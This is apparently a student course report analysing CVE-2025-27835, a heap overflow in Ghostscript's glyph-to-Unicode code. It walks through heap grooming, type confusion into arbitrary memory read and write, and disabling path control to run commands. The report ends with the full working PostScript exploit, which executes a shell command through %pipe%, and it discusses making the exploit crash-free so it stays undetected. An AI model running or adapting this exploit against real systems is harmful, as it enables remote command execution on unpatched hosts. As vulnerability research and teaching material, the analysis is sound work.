


Goal #
This is a report diving into CVE-2025-27835, a vulnerability in Ghostscript that allows for arbitrary command execution. This report was done with the help of members from the UMass Cybersecurity Club (Lina Li , Larry Liu , Alex Tong , and Katherine Shi ) as part of a final group project for the Reverse Engineering & Understanding Exploit Development course.
We analyzed CVE-2025-27835, a known buffer overflow vulnerability in Artifex Ghostscript versions prior to 10.05.0 that occurs in line 256 of the psi/zbfont.c file, part of a function that converts font glyphs to Unicode (gs_font_map_glyph_to_unicode). Our objective was to understand the mechanisms involved in the exploit, the choices the author of the exploit made, and attempt to improve upon the supplied exploit.
Exploit #
The vulnerability is a buffer overflow that occurs on a memcpy call. The destination buffer is of type unsigned char and allocates space accordingly, but it copies l * sizeof(short) bytes. Since unsigned chars are 1 byte and shorts are 2 bytes in C, a buffer overflow occurs by copying twice the amount of data.
After reviewing the source code, we hypothesize that the developer made the mistake by thinking that the number of bytes needed to represent a UTF-16 character is twice the size of the source string. However, in this function, l is already treated as the number of bytes of the source string. Thus, the function copies twice as much memory as intended, causing a heap overflow.
Triggering Conditions #
The exploit happens when specifically crafted fonts are used. Fonts are used in ghostscript to interpret PDF data or render/generate PDFs from text data. When a font is loaded and used, the buffer overflow will occur if:
- The font has a GlyphNames2Unicode dictionary
- The mapping of glyphs is unsuccessful (c == 0)
- The font is not a CIDFont (
ch!= -1) - The GlyphNames2Unicode dictionary must contain the value of
chas an integer key in the dictionary - Key ch in the dictionary gives value v, which is a string
- The size of v is smaller than or equal to length (l <= length)
Proof of Concept Exploit #
The full exploit code can be found at the end of this report.
Running the exploit with the provided command will run ls:
gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps
Ghostscript Internals #
Postscript allows you to create your own variables, arrays, strings, and various other types. To manage all the different types, Ghostscript creates a struct for every variable.
Almost everything in Ghostscript (variables, functions, fonts, etc) is of a type struct ref_s, which contains a struct tas_s and union.
The tas_s struct contains two important variables: type_attrs (the type of object it is, i.e. an array, a string, a font, a number, etc) and rsize (the amount of size in bytes it would take to represent the thing in memory).
A 19 field union is also part of the struct, allowing for data of all different types.
Below is the struct definition and an example object of type array (as denoted in the type_attrs). It is of size 32, and its value is simply a pointer to the array. In this exploit we will only deal with strings and arrays. Strings contain a pointer to the string itself, while arrays contain a pointer to an array of ref_s structs (each of which may contain more pointers).
ref_s ptype:

ref_s example variable:

As some extra context, Ghostscript allows for the execution of bash commands, but it is considered unsafe, so by default, the -dSAFER flag is enabled to prevent the execution of arbitrary commands. This flag can be disabled using the -dNOSAFER flag. The main goal of most Ghostscript exploits is to bypass this to achieve command execution. We will see later that this flag corresponds to a specific field in a gs_lib_ctx_core_t struct.
It also uses a similar allocator to dlmalloc, so the header data is inline with the chunks.
Exploitation #
Global Variable Setup #
Postscript is an interpreted language, therefore, we first need to define a max virtual memory threshold to allocate for the interpreter. The exploit PoC sets this to 500000000
500000000 setvmthreshold
Next, the author defines two global variables REFIDX and REFOFS with values 249888 and 3248640 respectively, at hardcoded addresses. We’ll see later on the significance of the values to the exploit.
/REFIDX 249888 def
/REFOFS 3248640 def
Three more global variables are defined below, with STROBJ being a string of size 1000, ARROBJ being an array of size 6250, and OBJARR being an array of size 32. While STROBJ and OBJARR don’t need precise sizes, ARROBJ must be size 6250 so we can search for the malloc chunk header size field once we get arbitrary read/write.
/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
Below is a diagram of the initialized objects in memory, and under that is the definition for ref_s definition for reference.

Below, you can see the values of OBJARR, STROBJ, and ARROBJ from top to bottom. Since STROBJ is at the start of OBJARR, the pointer of OBJARR points directly to it. ARROBJ is 16 bytes after that, since sizeof(ref_s) is 16. We can verify these are correct but looking at tas->rsize since all three variables have distinct sizes.
OBJARR:

ARROBJ:
SRTOBJ:
The next two lines set the first two elements of OBJARR to STROBJ and ARROBJ respectively.
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
Finally, to conclude the global variable setup, the exploit author declares 4 variables TARGET, MAGIC, STRPTR, and ARRPTR that will be used later.
The full global variable setup is shown below:
500000000 setvmthreshold
/REFIDX 249888 def
/REFOFS 3248640 def
/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def
/MAGIC null def
/STRPTR null def
/ARRPTR null def
Main Set Up #
Font Creation #
The exploit makes use of a custom Type 1 Font definition and a buffer overflow in the form of the vulnerable memcpy in psi/zbfont.c in order to hijack execution to invoke a call to the custom defined DONE function.
A font program in PostScript is a collection of commands that describe character shapes that can be accessed using the show operator. Given a font program definition, the PostScript interpreter can render the font in a device-independent manner.
The exploit author makes use of a Type 1 Font, a specific font program consisting of ASCII text, encoded, and encrypted portions. Type 1 Font is defined by a dictionary with many required and optional entries, but we’ll just go over the entries most relevant to the exploit.
In the main function, we create a new font with specific data:
/FontName: Name of the font/FontType 1: Type 1 font (glpyh-based, standard for scalable fonts)/FontMatrix: Cooridinate transformation matrix ( identity here = no scaling/skewing)
/Private << /lenIV -1 /Subrs [ <0E> ] >>
Type 1 fonts encrypt their charstrings where lenIV tells the interpreter how many bytes of random prefix to strip before interpreting the glyph data.By setting /lenIV to -1, this disables this setting so charstrings will not be encrypted for this font.
/Subrs is usually for local subroutines in charstrings, and is set here as <0E> which is an endchar operator in Type 1 charstrings
/Encoding [ /cs0 /cs1 /cs2 ]
Defines an array in the font dictionary to obtain the name (and associated commands) of the character to be built. The BuildChar operation (which will, unsurprisingly, construct the custom font character), when called on, will reference the name in /Encoding to build the corresponding key in the /CharStrings dictionary.
/CharStrings <<
/.notdef <0E>
/cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
/cs1 <0E>
/cs2 { DONE }
>>
Defines the behavior or data for each glyph as a dictionary. /CharStrings is one of two encrypted portions in the font program (the other being the /Private dictionary). It contains the encoded commands to draw the outlines of the characters within the font. There are a few interesting things to note about what the exploit author does with /CharStrings in this instance. First, we’ll notice that /.notdef <0E> sets glyph code 0 (a required entry in a valid Type 1 Font) to <0E>, which ensures that when an encoding that does not exist in the font program is called, .notdef will be substituted to give feedback that the glyph does not exist in the font. Next, we see that cs0 seems to be setting up some variables:
/cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
Specifically the encoding cs0 will place 1 in the 0th index of TEXT (i.e. TEXT[0] = 1), and define an array TARGET where TARGET[REFIDX] = OBJARR. The motivation for TEXT[0] = 1 is to set up TEXT such that it encodes a glyph whose name maps to cs0.
/cs1 <0E>
Similar to /.notdef, allocates the smallest valid character that does nothing (we believe that 0e is a reserved endchar operator, but could only find sources on this related to Type 2 Operators). We found that you could edit <0E> and replace it to any number like 3250 and the exploit would still execute properly. We hypothesized that the exploit author simply paired cs1 to <0E> for simplicity and guaranteed no operation (endchar) in this case.
/cs2 { DONE }
This calls the custom defined /DONE function.
/WeightVector [1]
This option in the font creation doesn’t seem to have any effect on the exploit.
/$Blend {}
This option in the font creation doesn’t seem to have any effect on the exploit.
/FontInfo <<
/BlendAxisTypes [ /foo ]
/BlendDesignPositions [[1]]
/BlendDesignMap [[[1]]]
/GlyphNames2Unicode << >>
>>
Is another dictionary that contains 4 elements. All except the /GlyphNames2Unicode dictionary seem to be unimportant. /GlyphNames2Unicode is what keeps the mappings from glyphs to actual characters.
/Blend <<
/FontBBox [[1]]
/Private << >>
>>
Is another dictionary that contains 2 elements. Both seem to be unimportant.
Full Font Definition Code #
/Myfont
<<
/FontName /Myfont
/FontType 1
/FontMatrix [1 0 0 1 0 0]
/Private << /lenIV -1 /Subrs [ <0E> ] >>
/Decoding 0
/Encoding [ /cs0 /cs1 /cs2 ]
/CharStrings <<
/.notdef <0E>
/cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
/cs1 <0E>
/cs2 { DONE }
>>
/WeightVector [1]
/$Blend {}
/FontInfo <<
/BlendAxisTypes [ /foo ]
/BlendDesignPositions [[1]]
/BlendDesignMap [[[1]]]
/GlyphNames2Unicode << >>
>>
/Blend <<
/FontBBox [[1]]
/Private << >>
>>
>>
Font Usage #
After defining the font, the next step is to use it. In order to do this, the font needs to be built and set as the current font.
.buildfont1
/FONT exch def
/FONTNAME exch def
FONT setfont
The .buildfont1 operator takes a font dictionary from the stack and constructs a font object. The constructed font object is then stored in the variable FONT, and its name is stored in FONTNAME. Finally, FONT is set as the current font using the setfont operator.
After setting the font, the exploit author does more setup in /MAIN. The next lines initializes three strings:
/TEXT 625000 string def
/SOURCE2 4000002 string def
/SOURCE1 4000002 string def
TEXT is a string of size 625000, while SOURCE1 and SOURCE2 are strings of size 4000002. The sizes of SOURCE1 and SOURCE2 are important because they will be used to trigger the buffer overflow in the vulnerable memcpy call.
The ref_s variables corresponding to these three local variables are right next to each other in the Postscript virtual memory, and their buffers are at fixed “offsets” from each other (we will see later that these offsets are just padding). The way this looks like in memory, the tas_s struct of each variable will contain the type of the variable (so they all have type string) and the rsize field in each variable’s tas_s struct 625000 or 4000002. The image below is the value of the SOURCE1 ref_s variable.

SOURCE2 REFOFS <7e12> putinterval
The program then calls the Postscript putinterval operator to put the value 0x127e at index 3248640 in SOURCE2, which is an important thing to keep in mind for later. This is done in the function do_call_operator with the address of the Postscript function to run, in this case zputinterval with arguments SOURCE1, SOURCE2, and index. The heap has been set up in a deterministic way such that we are able to hardcode the REFOFS value as well, as we will see later. ASLR loads modules at a different address every time, but all important objects are fixed relative to /TARGET (which is the struct object the buffer overflow is targeting) stay the same.
The most important part of the main function is the next line:
FONT /FontInfo get /GlyphNames2Unicode get 1 SOURCE1 put
Translating this to more readable code, it means get the /FontInfo variable from the FONT in which we then get the /GlyphNames2Unicode dictionary from /FontInfo which shortens the code to:
/GlyphNames2Unicode 1 SOURCE1 put
And all this does is put the variable SOURCE1 into the the second mapping of /GlyphNames2Unicode, effectively mapping 1 to SOURCE1, so /GlyphNames2Unicode looks like this after (using this line in our font’s definition instead of using put also works):
/GlyphNames2Unicode <<
1 SOURCE1
>>
So the glyph for 1, which is cs1, will be mapped to SOURCE1. This is important because this mapping NEEDS to be this specifically for the exploit to work or else the buffer is incorrectly written.
In the next line, we undefine the ./notdef glyph in the font’s /CharacterCode dictionary. This means that the font will never execute that glyph when the font encounters some undefined character code.
We then fill up the TEXT variable to be the character codes we want to run so it sets TEXT = [0x0, 0x2, 0x0 …]. Then we set the position of the cursor to an arbitrary location so we can start rendering text.
Triggering the Exploit #
Finally, we run the heart of the exploit by attempting to display the TEXT variable using the specially crafted font.
Because TEXT = [0x0, 0x2, 0x0 …], it will run the code for the glyph that corresponds to character code 0, which is cs0. It will then run the code for the glyph that corresponds to the character code 2, which is cs2. Looking at cs0, the first thing it does is:
TEXT[0] = 1
Now the code in /MAIN has just set TEXT = [0x0, 0x2]. So, after this command, it is now
TEXT = [0x1, 0x2]
The code then creates a 312500 element array named TARGET which is used later in the exploit. Finally, it places OBJARR into TARGET at offset REFIDX. As such, TARGET[249888] is a copy of OBJARR (important for type confusion). We found that REFIDX accounts for the empty space between unicode_return and TARGET (which we will see later). The heap buffers have been specially crafted in such a way that this hardcoded value works consistently.
After cs0 finishes, our assumption is that it attempts to display the output of cs1 before running the code for cs2,. However, since the value at TEXT[0] had changed in between to 1, it now will display the glyph for character code 1, which is <0E>, instead of going to cs2. Since glyph 1 has no mapping in /CharStrings, there would be an error. Normally, the font would see that character code 1 has no mapping and would move to the execution of /.notdef. However, because the script had previously undefined it, it attempts to fall back on the /GlyphNames2Unicode dictionary which runs gs_font_map_glyph_to_unicode to attempt to get the Unicode UTF-16 code for a glyph, which we presume occurs because it maps cs1 or 0E to SOURCE1. This triggers the overflow and overwrites data from SOURCE1 and SOURCE2 (which we control) into the target buffer, which is stored closeby to unicode_return. Specifically, it overwrites the type of the OBJARR ref we placed in TARGET.
The Exploit #
Looking at the vulnerable code again, we see that we are copying from a buffer in v to unicode_return.
memcpy(unicode_return, v->value.const_bytes, l * sizeof(short));
unicode_return is temporarily allocated one function up, in txt_get_unicode, and v is a Ghostscript variable that we control. With dynamic analysis, we found that v is SOURCE1, meaning that v->value.const_bytes is a buffer of size 4000002.
unicode = (ushort *)gs_alloc_bytes(dev->memory, length, "temporary Unicode array");
length = font->procs.decode_glyph((gs_font *)font, glyph, ch, unicode, length);
Looking at how unicode_return was allocated, we can see that it is also of size length (4000002). Thus, we are copying past the end of SOURCE1 into a space past the end of unicode_return. As mentioned earlier, we set up TARGET and SOURCE2 such that they would be in these spaces.

Looking at the diagram, it is clearer that REFIDX is the index of our target (copy of OBJARR) in TARGET, and REFOFS is the offset of our overwrite (0x127e, which corresponds to type string).
This size of SOURCE1 was specially chosen. The last 4 bytes of the memcpy will overwrite the type field of the variable OBJARR. Before the overflow occurs, OBJARR had a type of 0x04 which corresponds to a t_array. But we overwrote it to 0x12, setting it to of type string. However, as we will later see, this also overwrites the malloc and clump headers of TARGET, which will cause Ghostscript to crash when trying to clean up.
As you can see in the image, the reason TARGET is initialized in /cs0 and not before we trigger the exploit is because we need TARGET to consistently be right after unicode_return.
As a brief aside, we investigated how the allocator works and why there are 750000 zero bytes in between SOURCE1 and SOURCE2 to understand more on why we set them up in a specific order with specific indices.
Looking at the space before SOURCE2, we can find that there are headers corresponding to gs_malloc_block_t, and more specifically, the headers contain pointers, size, and a client name that is “large string clump”.
// /base/gsmalloc.h
25 /* Define a memory manager that allocates directly from the C heap */
26 typedef struct gs_malloc_block_s gs_malloc_block_t;
// /base/gsmalloc.c
89 /* We must make sure that malloc_blocks leave the block aligned. */
90 /*typedef struct gs_malloc_block_s gs_malloc_block_t; */
91 #define malloc_block_data\
92 gs_malloc_block_t *next;\
93 gs_malloc_block_t *prev;\
94 size_t size;\
95 gs_memory_type_ptr_t type;\
96 client_name_t cname
97 struct malloc_block_data_s {
98 malloc_block_data;
99 };
100 struct gs_malloc_block_s {
101 malloc_block_data;
102 /* ANSI C does not allow zero-size arrays, so we need the following */
103 /* unnecessary and wasteful workaround: */
104 #define _npad (-size_of(struct malloc_block_data_s) & (ARCH_ALIGN_MEMORY_MOD - 1))
105 byte _pad[(_npad == 0 ? ARCH_ALIGN_MEMORY_MOD : _npad)];
106 #undef _npad
107 };

We can see that our large strings are being allocated with the alloc_acquire_clump function using a size of asize.

Although asize is calculated using a lot of unreadable bit manipulation, we can see that it is approximately 750000 more bytes than what we requested (nbytes).

Combined with the fact that allocations are page aligned, the reason why there is a 751358 bytes in between SOURCE1 and SOURCE2 is because of Ghostscript’s i_alloc_string_immovable function.
We experimented with allocating different sized strings and seeing where they were placed in memory, and noticed that strings less than around 250000 length are placed in the normal Ghostscript heap.
With further analysis, we found that malloc decides whether strings are put on the heap or in their own clumps, which explains why the author uses 4000000 sized strings.

Additionally, the reason there is no padding between unicode_return and TARGET is because it is created using a different allocator function (alloc_obj instead of i_alloc_string).


/DONE Function: Type Confusion For Arbitrary Reads and Writes #
After all of this is done, the program renders 2 from TEXT using /cs2, which just calls the /DONE function.
From the buffer overflow of /cs0 and /cs1, we can see that we now have 2 references to the same array, but of different types.
Type confusion is a common strategy used in VM escapes. In this case, the exploit is using it to achieve arbitrary reads and writes. By changing the type to a string we can modify the pointer of STROBJ to read/write from any location in memory.
TARGET[REFIDX] contained a copy of OBJARR in /cs0 and now /DONE makes use of this for the next steps of the exploit. It sets MAGIC to TARGET[REFIDX], so MAGIC points to the same thing OBJARR, except that it is of type string.
Next it defines two more variables STRPTR and ARRPTR. The exploit first grabs the substring of MAGIC using the getinterval operator, starting from the 8th character and ending at the 15th character and sets it to STRPTR. Since MAGIC is of type string, using getinterval will “take the substring” by making a new pointer to that substring.
First element: OBJARR[0]
MAGIC[0:8] = STROBJ tas struct
MAGIC[8:16] = ptr to STROBJ string
Second element: OBJARR[1]
MAGIC[16:24] = ARROBJ tas struct
MAGIC[24:32] = ptr to ARROBJ array
In the end, STRPTR is just a pointer to STROBJ's pointer and ARRPTR is just a pointer to ARROBJ's pointer. Therefore, if we write to STRPTR's string, then we overwrite STROBJ's pointer.
As a small note, /arrptr and /ARRPTR do the exact same thing, as they are both of type string and point to ARROBJ’s pointer.
We now define some functions to leverage this type confusion.
/copystr: simply takes two strings and copies data from one to another
/copystr {
/_length exch def
/_srcidx exch def
/_srcstr exch def
/_dstidx exch def
/_dststr exch def
_length {
_dststr _dstidx _srcstr _srcidx get put
/_srcidx _srcidx 1 add def
/_dstidx _dstidx 1 add def
} repeat
} bind def
/ptradd: takes a string variable in which its value is a pointer (say pointer A) and increments A by an amount
/ptradd {
/_inc exch def
/_ptr exch def
/_new 8 string def
0 1 7 {
/_i exch def
/_b _ptr _i get _inc add def
/_inc _b -8 bitshift def
_new _i _b 255 and put
} for
_new
} bind def
/arbrd: overwrites the pointer ofSTROBJby writing toSTRPTR, and then reads whatSTROBJis pointing at by accessing it fromOBJARR
/arbrd {
/_buf exch def
/_adr exch def
STRPTR 0 _adr 0 8 copystr
_buf 0 OBJARR 0 get 0 _buf length copystr
} bind def
/arbwr: does the same thing as arbrd, but writes to whatSTROBJis pointing at instead of reading it
/arbwr {
/_buf exch def
/_adr exch def
STRPTR 0 _adr 0 8 copystr
OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def
Disabling the security flags #
Now our goal is to locate the security flags. We do this by traversing the malloc headers, which form a doubly linked list. This is easily done with the plist command in pwndbg:

{
/arrsz 8 string def
/next arrptr -40 ptradd -48 ptradd def
next 16 ptradd arrsz arbrd
arrsz <d886010000000000> eq { exit } if % 100056
/next arrptr -56 ptradd -48 ptradd def
next 16 ptradd arrsz arbrd
arrsz <e886010000000000> eq { exit } if % 100072
(unknown header layout) = quit
} loop
We first check at an offset -88 and -104 from the start of OBJARR, checking if the value at that offset is equal to the size of ARROBJ to verify which type of chunk header layout Ghostscript is using (in 10.04.0’s case it is offset -88). (This is the whole reason why ARROBJ must be size 6250, since we check if it’s size 0x186d8 = 16*6250 + 56). At both of these offsets, the PoC then checks for the size for that malloc block (100056/0x186d8 and 100072/0x186e8) which can be seen in the image above as the first two malloc chunk headers in the list. If the size check passes, then the exploit code can continue knowing the pointer is a valid malloc chunk header.
Once again, we are traversing the malloc chunk headers linked list, searching for one where the next node has a cname equal to “gs_lib_ctx_init(core)”. Note that the *next pointer is offset 0 from the structure and cname is offset 32 from the structure. The node with the matching string seems to always be the third to last node in the linked list and the linked list seems to be a bit short of 500 nodes each time.
After finding the correct pointer, the exploit stores it in the vairable head. 48 bytes after head is a struct of type gs_lib_ctx_core_t which contains a field called “is_path_control_active” which is a boolean that will let Postscript execute arbitrary commands. The exploit then sets this field to 0, thus allowing the execution of arbitrary commands.
Flag before being turned off:

Flag after being turned off:

This is effectively the end of the exploit, as all thats left to do is run any command we want. In the case of the PoC, it runs ls and prints the output to the terminal but this could be any command such as a reverse shell, creating a cronjob, reading a file, etc.
(%pipe%ls -laf) (w) file
As a summary of everything the exploit just did:
- Initialized
OBJARR,STROBJ,ARROBJ, andTARGETsuch that it would be able to arbitrarily read/write and get malloc header primitives after the buffer overflow. - Created a malicious font with
SOURCE1andSOURCE2to conduct a buffer overflow onto a copy ofOBJARRinTARGET, setting its type to a string. - Used the type confusion to traverse the malloc chunk linked list until we find
gs_lib_ctx_init(core) - Overwrote the
path_control_activefield in the context struct and execute arbitrary commands
Next Steps #
The very last thing the exploit does is infinite loop in Postscript:
{ 1 pop } loop
When Ghostscript files are run, they will typically exit back to the interpreter. However, after executing our payload, it will enter into an infinite loop (intentionally). This is because the interpreter will crash (yes actually segfault) if we attempt to exit from the script, as we overwrite the header data for the clump containing /target during our buffer overflow. This is interesting because Ghostscript actually handles crashes and will exit gracefully if something goes wrong.
Segfault:

Graceful crash:
When the interpreter tries to clean up the GhostScript heap, it will try to clean up the overwritten chunk and crash when it tries to access the nonexistent header data.
Before buffer overflow:


After buffer overflow:


Our goal was to edit the PoC such that the interpreter doesn’t crash or hang after the execution of the script so that the exploit can remain undetected. Obviously the point of a PoC is just to show that the exploit actually works but we wanted to see how someone would go about making it useful in a real world scenario.
We had two avenues to investigate: Controlling the data that the clump header data is overwritten with, or preventing Ghostscript from trying to clean up the clump.
Attempts to control the data that overwrites the clump header data weren’t fruitful. We needed a way to control the 1760 bytes of data immediately after the data of SOURCE1 (specifically the 60 or so bytes at the end), so that we could repair the clump data for the clump containing /target. We tried to resize the variables in the exploit so that SOURCE1’s data ended up adjacent to other data that we controlled. We found that the variables were simply positioned in the order that they were defined/allocated. However, as discussed earlier, the clumps that we are working with only accept larger sizes (> ~250000 bytes), while smaller sized allocations go on the normal heap or other clumps. Additionally, since Ghostscript allocates a large amount of padding to the data for refs that scales with the size of the allocation, we found that we would not be able to get controllable data into the 1760 bytes, as any data adjacent to SOURCE1 would be padding data of length > 1760.
We then attempted to attack the heap. Further investigation revealed that the pointer to the clump is stored in the (non-Ghostscript) heap. This was promising, as we could potentially use the read/write primitives to overwrite the heap such that it loses the reference to the corrupted clump, potentially delaying or even preventing a crash. The crash happens in the gc_objects_clear_marks function called by gs_gc_reclaim. gs_gc_reclaim attempts to go through the objects in each clump and mark them to be freed or consolidated. It does this by traversing through the tree that contains references to every clump. However, references to adjacent nodes, as well as other data, are only stored in the header data for each clump, which are located on the Ghostscript heap. This is inaccessible to our read/write primitives, which stopped us in our tracks. The pointer for every clump is stored on the normal heap, so in theory if we can find some other structure in the heap containing the clumps or find the section in memory where they are stored, we can attempt to traverse it and linearly search for a clump with data unique to the clump (if any exists on the heap) or by its order. which is very far in the heap memory. Ultimately, we didn’t have the time to fully test this approach to see if it would be feasible, but any implementation would also likely be difficult to get consistently working, as it would be sensitive to variations in ordering on the heap or Ghostscript heap (i.e. if the interpreter was used before running the exploit).
Impact #
This affects all x64 Linux systems running Ghostscript versions prior to 10.05.0. The exploit also worked on an ARM 7.2 machine (again running Ghostscript versions prior to 10.05.0).
Mitigations #
GhostScript v10.05.1 Official Patch #
As of GhostScript version 10.05.1, the exploit has been patched by changing the vulnerable memcpy line from copying l * sizeof(short) to simply l bytes.
References #
Full Proof of Concept Code #
% gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps
500000000 setvmthreshold
/REFIDX 249888 def
/REFOFS 3248640 def
/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def
/MAGIC null def
/STRPTR null def
/ARRPTR null def
% <dststr> <dstidx> <srcstr> <srcidx> <length> copystr -
/copystr {
/_length exch def
/_srcidx exch def
/_srcstr exch def
/_dstidx exch def
/_dststr exch def
_length {
_dststr _dstidx _srcstr _srcidx get put
/_srcidx _srcidx 1 add def
/_dstidx _dstidx 1 add def
} repeat
} bind def
% <string> <int> ptradd <string>
/ptradd {
/_inc exch def
/_ptr exch def
/_new 8 string def
0 1 7 {
/_i exch def
/_b _ptr _i get _inc add def
/_inc _b -8 bitshift def
_new _i _b 255 and put
} for
_new
} bind def
% <string-address> <string-buffer> arbrd -
/arbrd {
/_buf exch def
/_adr exch def
STRPTR 0 _adr 0 8 copystr
_buf 0 OBJARR 0 get 0 _buf length copystr
} bind def
% <string-address> <string-data> arbwr -
/arbwr {
/_buf exch def
/_adr exch def
STRPTR 0 _adr 0 8 copystr
OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def
/DONE {
/MAGIC TARGET REFIDX get def
/STRPTR MAGIC 8 8 getinterval def
/ARRPTR MAGIC 24 8 getinterval def
(patch) = flush
/arrptr 8 string def
arrptr 0 ARRPTR 0 8 copystr
{
/arrsz 8 string def
/next arrptr -40 ptradd -48 ptradd def
next 16 ptradd arrsz arbrd
arrsz <d886010000000000> eq { exit } if % 100056
/next arrptr -56 ptradd -48 ptradd def
next 16 ptradd arrsz arbrd
arrsz <e886010000000000> eq { exit } if % 100072
(unknown header layout) = quit
} loop
{
/head next def
/next 8 string def
/cname 8 string def
/cname_str 21 string def
head next arbrd
head 32 ptradd cname arbrd
cname cname_str arbrd
cname_str (gs_lib_ctx_init(core)) eq { exit } if
} loop
/buf 4 string def
/ptr1 head 188 ptradd def
/ptr2 head 204 ptradd def
ptr1 buf arbrd buf <01000000> eq { ptr1 <00000000> arbwr } if
ptr2 buf arbrd buf <01000000> eq { ptr2 <00000000> arbwr } if
(exec) = flush
(%pipe%id) (w) file
(done) =
{ 1 pop } loop
quit
} def % DONE
/MAIN {
/Myfont
<<
/FontName /Myfont
/FontType 1
/FontMatrix [1 0 0 1 0 0]
/Private << /lenIV -1 /Subrs [ <0E> ] >>
/Decoding 0
/Encoding [ /cs0 /cs1 /cs2 ]
/CharStrings <<
/.notdef <0E>
/cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
/cs1 <0E>
/cs2 { DONE }
>>
/WeightVector [1]
/$Blend {}
/FontInfo <<
/BlendAxisTypes [ /foo ]
/BlendDesignPositions [[1]]
/BlendDesignMap [[[1]]]
/GlyphNames2Unicode << >>
>>
/Blend <<
/FontBBox [[1]]
/Private << >>
>>
>>
.buildfont1
/FONT exch def
/FONTNAME exch def
FONT setfont
(init) = flush
/TEXT 625000 string def
/SOURCE2 4000002 string def
/SOURCE1 4000002 string def
SOURCE2 REFOFS <7e12> putinterval
FONT /FontInfo get /GlyphNames2Unicode get 1 SOURCE1 put
FONT /CharStrings get /.notdef undef
TEXT 0 0 put
TEXT 1 2 put
(trigger) = flush
0 750 moveto
TEXT show
} def % MAIN
MAIN
quit